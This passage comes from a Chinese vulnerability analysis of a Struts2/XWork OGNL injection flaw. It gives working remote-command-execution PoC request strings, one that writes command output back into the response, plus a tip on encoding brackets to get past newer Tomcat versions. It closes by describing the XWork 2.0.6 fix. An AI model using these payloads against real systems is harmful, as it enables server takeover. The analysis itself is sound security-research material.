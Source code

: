 > - (java code)(fuck)(fuck)
> - (fuck)(java code)(fuck)

因为这个该漏洞时由`OgnlUtil.setValue()`方法去触发的，所以综上，可简单执行命令的PoC如下：

```php
/xxx.action?
(a)(%5cu0023context['xwork.MethodAccessor.denyMethodExecution']%5cu003dfalse)
&amp;(b)(%5cu0040java.lang.Runtime%5cu0040getRuntime().exec(%22touch%20/tmp/success2%22))
```

### 可回显PoC

与`S2-001`回显PoC同理，也是通过从上下文对象`context`获取`com.opensymphony.xwork2.dispatcher.HttpServletResponse`对象来实现，如下：

```php
/xxx.action?
(a)(%5cu0023context['xwork.MethodAccessor.denyMethodExecution']%5cu003dfalse)(bla)
&amp;(b)(%5cu0023ret%5cu003d@java.lang.Runtime@getRuntime().exec('id'))(bla)
&amp;(c)(%5cu0023dis%5cu003dnew%5cu0020java.io.BufferedReader(new%5cu0020java.io.InputStreamReader(%5cu0023ret.getInputStream())))(bla)
&amp;(d)(%5cu0023res%5cu003dnew%5cu0020char[20000])(bla)
&amp;(e)(%5cu0023dis.read(%5cu0023res))(bla)
&amp;(f)(%5cu0023writer%5cu003d%5cu0023context.get('com.opensymphony.xwork2.dispatcher.HttpServletResponse').getWriter())(bla)
&amp;(g)(%5cu0023writer.println(new%5cu0020java.lang.String(%5cu0023res)))(bla)
&amp;(h)(%5cu0023writer.flush())(bla)
&amp;(i)(%5cu0023writer.close())(bla)
```

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-de8be2d056604a803164031e02809252f694e198.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-de8be2d056604a803164031e02809252f694e198.png)

当然，这里用两个括号的形式也是可以的，但是无论用哪种，Java代码一定要放在第二个括号里，第一个括号里的用来决定表达式的执行顺序。因为在`ParametersInterceptor#setParameters()`方法中会把所有的url请求参数放在一个`TreeMap`里,且作为`key`进行存放。而`TreeMap`默认是会按照`key`进行字典排序的。所以如果要让PoC里所有的表达式都按照指定的先后顺序执行的话，必须使用第一个括号进行排序。比如上面回显PoC里第一个表达式先后依次就是`(a)`-&gt;`(b)`-&gt;`(c)`-&gt;`(d)`-&gt;`(e)`-&gt;`(f)`-&gt;`(g)`-&gt;`(h)`-&gt;`(i)`。

> 注意：这个PoC在有的高版本的Tomcat会报400错误，提示`java.lang.IllegalArgumentException: Invalid character found in the request target. The valid characters are defined in RFC 7230 and RFC 3986`，这是因为高版本的Tomcat按照RFC规定实现，不允许URL中出现中括号`[]`，这时只需将URL里的中括号`[]`进行url编码即可。

漏洞修复
----

Struts2 `2.0.12`版本，依赖的XWork版本是`2.0.6`。通过比对XWork`2.0.6`和`2.0.5`版本的源码的不同，发现在类`OgnlValueStack`中使用了`SecurityMemberAccess`去替代`StaticMemberAccess`。

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-1cb6fcee1c042cb07ae3fe6acfd11f92e265f60e.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-1cb6fcee1c042cb07ae3fe6acfd11f92e265f60e.png)

类`OgnlValueStack`还因实现了新接口`MemberAccessValueStack`而实现了其两个方法：

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-16f4b0093fc41fd56be0593c8749d98000cbf227.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-16f4b0093fc41fd56be0593c8749d98000cbf227.png)
